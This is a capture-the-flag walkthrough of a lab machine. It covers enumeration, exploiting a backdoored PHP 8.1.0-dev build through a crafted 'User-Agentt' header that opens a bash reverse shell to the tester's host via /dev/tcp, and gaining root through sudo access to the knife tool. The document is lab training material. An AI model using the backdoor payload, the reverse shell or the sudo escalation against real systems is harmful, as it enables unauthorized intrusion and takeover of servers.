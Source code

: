 ## Phase 1: Enumeration

As always we start off with an nmap scan:

![](/images/user.png)

Nmap didn't show any outdated services, so we can check out the website. By visiting http://10.10.10.242 we can see that it's a static page - nothing interesting there: 
> Checking the source code with Ctrl+U doesn't show anything interesting either, however
> after going over to network tab through developer tools I saw this response header: ```X-Powered-By: PHP/8.1.0-dev```
* Since PHP 8.1.0 is outdated it's probably vulnerable to an exploit => ```https://www.exploit-db.com/exploits/49933```

## Phase 2: Exploitation

First I set up nc to listen on port 9001 (nc -lvnp 9001), then
I used Burp Suite and FoxyProxy to intercept request of http://10.10.10.242/ and send this request:

![](/images/request.png)
* Added ```User-Agentt:zerodiumsystem("bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1 '");```

I sent the request and got a reverse shell: 

![](/images/user.png)
I then navigated to home/james and used ```cat user.txt``` to obtain the user flag
(user flag image)

## Phase 3: Privilege escalation

I started things out by running sudo -l to see which commands can be executed as sudo on this machine, as it turns out, we can execute /usr/bin/knife. Great!

![](images/sudocmd.png)

So now I simply executed ```sudo knife exec --exec "exec '/bin/sh -i' "``` in the command line to get root.
After that I navigated to /root and used ```cat root.txt``` to get root flag
(root flag image)

And the box is complete!
